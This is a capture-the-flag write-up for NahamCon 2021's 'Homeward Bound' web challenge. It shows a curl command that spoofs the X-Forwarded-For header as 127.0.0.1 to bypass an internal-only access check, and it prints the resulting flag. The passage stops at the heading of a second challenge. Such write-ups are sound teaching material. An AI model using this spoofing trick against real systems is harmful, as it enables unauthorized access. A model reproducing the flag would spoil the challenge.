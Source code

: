 ![images/nahamcon21/latest-score.png](../images/nahamcon21/latest-score.png)




# [Easy] Homeward Bound - 50 points (686 Solves)

### Intro
```
Author: @JohnHammond#6971

I can't get anything out of this website... can you find anything interesting?

NOTE: That message is intended. This challenge is working as it should.
```

### Solve

The page was showing an error `Sorry, this page is not accessible externally.` we can guess that the page is somehow expecting an internal ip address to send a request to this page and we can solve it by spoofing the ip using the famous `X-Forwarded-For` header 😊

Look at this curl command below:

```
✗ curl -H "X-Forwarded-For: 127.0.0.1" http://challenge.nahamcon.com:30903/ | grep flag
<div class="alert alert-success" role="alert"><b>Welcome!</b> Your internal access key is: <code>flag{26080a2216e95746ec3e932002b9baa4}</code></div>                    </p>
```                    
---
# [Easy] $Echo - 50 points (746 Solves)
